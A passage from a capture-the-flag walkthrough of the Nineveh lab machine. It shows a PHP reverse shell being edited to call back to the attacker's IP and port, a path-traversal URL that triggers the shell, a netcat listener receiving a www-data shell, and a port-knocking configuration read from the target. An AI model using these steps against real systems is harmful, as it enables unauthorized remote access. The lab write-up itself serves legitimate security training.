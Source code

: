 Original:
```
┌──(code㉿kali)-[~]
└─$ sudo grep set_time_limit /var/www/html/shell.txt -A 5 
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
```
Edited:
```
┌──(code㉿kali)-[~]
└─$ sudo grep set_time_limit /var/www/html/shell.txt -A 5                                           
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.17';  // CHANGE THIS
$port = 4488;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
```

![db.txt](https://github.com/codetantrum/walkthroughs/blob/master/Nineveh/images/Pasted%20image%2020211122081522.png)

5. Setup a netcat listener and catch the reverse shell by browsing to http://10.10.10.43/department/manage.php?notes=files/ninevehNotes/../../../../../../var/tmp/hack.php

```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4488
listening on [any] 4488 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.43] 53076
Linux nineveh 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 07:22:55 up 56 min,  0 users,  load average: 0.04, 0.10, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```

We see knockd process is running on the target so we read /etc/knockd.conf to see what ports may be available to us after port knocking.

```
$ cat /etc/knockd.conf
[options]
 logfile = /var/log/knockd.log
 interface = ens160

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

```
